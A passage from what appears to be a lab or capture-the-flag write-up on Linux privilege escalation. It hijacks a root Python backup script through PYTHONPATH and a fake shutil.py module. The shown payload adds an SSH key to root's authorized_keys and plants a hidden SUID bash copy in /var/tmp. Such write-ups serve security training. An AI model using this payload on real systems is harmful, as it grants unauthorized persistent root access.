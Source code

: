 ```python
#!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
```

Whenever Python imports a module, it checks the PYTHONPATH variable for the directories to import it from, kind of like regular PATH. The SETENV privilege would let us change this variable to anything we want.

So to exploit this, we would simply need to change the PYTHONPATH variable to make the script import a malicious script that we have created. Because the module checks for `shutil`, we would need to name our malicious script `shutil.py` with a function `make_archive()` that takes 3 parameters but does nothing.

Afterwards, we need to find a directory that works. For some reason, the `/home/waldo` and `/tmp` directories were consistenly being cleared in this machine. As such, I used the `/var/tmp` directory, which seemed to be alright.

A quick Python script to echo our public key into the authorized\_key folder AND create a SUID binary should work:

{% code overflow="wrap" %}
```python
#!/usr/bin/python3

import os
# fake function to make import successful
def make_archive(a,b,c):
    pass

os.system("mkdir -p /root/.ssh; echo '<KEY>' >> /root/.ssh/authorized_keys")
os.system('cp /bin/bash /var/tmp/.user; chown root:root /var/tmp/.user; chmod 4755 /var/tmp/.user')
```
{% endcode %}

Afterwards, we can change the PYTHONPATH used for the script.

<figure><img src="../../../.gitbook/assets/image (254).png" alt=""><figcaption></figcaption></figure>

Then, we can SSH in as root using the key we have.

<figure><img src="../../../.gitbook/assets/image (247).png" alt=""><figcaption></figcaption></figure>
